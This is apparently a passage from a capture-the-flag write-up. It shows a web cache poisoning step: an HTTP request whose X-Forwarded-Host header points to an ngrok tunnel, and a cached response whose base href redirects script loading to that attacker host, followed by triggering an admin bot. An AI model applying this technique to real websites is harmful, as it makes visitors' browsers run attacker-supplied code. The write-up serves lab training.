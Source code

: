 Poisoned the cache for the next letter:

```
GET /letters?id=16 HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: USR_ozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://159.65.59.5:31184/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
X-Forwarded-Host: ed97-2-42-243-225.ngrok.io/

HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 2135
ETag: W/"857-UZNX9ULB7Ou8CQnYWfnNTpY8xwI"
Date: Tue, 19 Jul 2022 14:36:32 GMT
X-Varnish: 294962 196897
Age: 1
Via: 1.1 varnish (Varnish/6.1)
X-Cache: HIT
X-Cache-Hits: 5
Accept-Ranges: bytes
Connection: close
...
<meta http-equiv="X-UA-Compatible" content="IE=edge" />
<meta name="viewport" content="width=device-width, initial-scale=1.0" />
<base href="http://ed97-2-42-243-225.ngrok.io/:80/static/" />
<link rel="preconnect" href="https://fonts.googleapis.com" />
...
```

Submitted a letter and triggered the bot:

![Untitled](../../zzz_res/attachments/EasterBunny%20e580b8ca86214deb837383b8e4c495a4%205.png)
